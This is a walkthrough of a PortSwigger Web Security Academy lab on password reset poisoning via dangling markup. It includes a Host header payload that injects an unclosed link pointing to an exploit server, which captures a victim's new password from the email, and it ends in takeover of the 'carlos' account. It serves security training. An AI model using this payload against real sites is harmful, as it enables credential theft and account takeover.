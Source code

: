 # Password reset poisoning via dangling markup

## Description

[This lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) is vulnerable to password reset poisoning via dangling markup.

## Reproduction

1. Go to the login page and request a password reset for your own account.
2. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a `password reset` token. Instead, a new password is sent directly in the email body text.
3. In the proxy history, study the response to the `GET /email` request. Observe that the HTML content for your email is written to a string, but this is being sanitised using the `DOMPurify` library before it is rendered by the browser.
4. In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitised in any way.
5. Send the `POST /forgot-password` request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the `Host` header and still reach the site as normal. Sending this request will still trigger a password reset email:

```text
Host: lab-id.web-security-academy.net:arbitraryport
```
    
6. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
7. Send the `POST /forgot-password` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```text
Host: lab-id.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```
    
8. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins `GET /?/login'>[…]`, which contains the rest of the email body, including the new password.
9. In Burp Repeater, send the request one last time, but change the `username` parameter to `carlos`. Refresh the access log and obtain Carlos's new password from the corresponding log entry.
10. Log in as `carlos` using this new password to solve the lab.

## PoC

```{raw} html
<iframe width="560" height="315"
src="https://tube.spdns.org/videos/embed/2e609dbc-afc9-4dba-a7c7-958653285d05"
title="Password reset poisoning via dangling markup"
frameborder="0"
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
allowfullscreen
sandbox="allow-same-origin allow-scripts allow-popups"
style="width: 100%; height: 360px; border: none;"></iframe>
```

----

## Exploitability

An attacker will need to abuse the vulnerability and log in to Carlos's account. 
Any emails sent to `wiener:peter` can be read via the email client on the exploit server.
